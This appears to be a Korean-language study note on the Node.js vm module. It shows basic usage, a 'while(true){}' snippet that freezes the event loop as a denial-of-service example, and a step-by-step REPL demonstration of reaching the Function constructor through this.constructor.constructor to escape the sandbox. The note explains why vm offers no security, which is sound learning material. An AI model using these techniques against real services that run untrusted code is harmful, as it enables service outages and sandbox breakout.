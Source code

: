 ```

## Node vm
node:vm 모듈은 security mechanism이 아니라고 한다. -> untrusted code를 쓰지 말아라..
주로 다른 context에서 코드를 실행하기 위해 사용한다고 한다.
simple usage

```js
const vm = require('vm')
const context = { x : 2 }

const code = 'var y = 3; x += y;'

vm.runInContext(code, context)

console.log(context.x); // 5
console.log(context.y) // 3
```
### DoS attack
nodejs는 싱글 스레드이고 Event Loop에 의존하기 때문에 event loop를 heavy/endless한 작업들로 막으면, 서비스를 멈출 수 있다.
```js
const vm = require('vm');

const code = 'while(true){}';

vm.runInNewContext(code,{});

console.log('Never gets executed.')
```
infinite loop가 event loop를 main process안에서 막기 때문에, 멈춘다.
새로운 V8 Virtual Machine context에서 동작하는 것은 맞지만, 같은 process와 같은 event loop를 사용하기 떄문에 멈춘다..
### Escaping the Sandbox
VM 모듈은 새롭게 실행될 코드의 context를 original code와 분리한다.
반? 격리된 context에서 실행된다고 봐도 될 것 같다.
하지만, 쉽게 탈출된다.
`this.constructor.constructor`이런 느낌으로 간단하다

```js
> const vm = require("vm");

> code = "var x = this.y"
> let context = {y:1}
> vm.runInNewContext(code,context)
> console.log(context.x)

> code = "var x = this.constructor"
> vm.runInNewContext(code,context);
> console.log(context.x);
[Function: Object]

> code = "var x = this.constructor.constructor"
> vm.runInNewContext(code,context);
> console.log(context.x);
[Function: Function]

> code = "var x = this.constructor.constructor()"
> vm.runInNewContext(code,context);
> console.log(context.x);
[Function: anonymous]
undefined
```
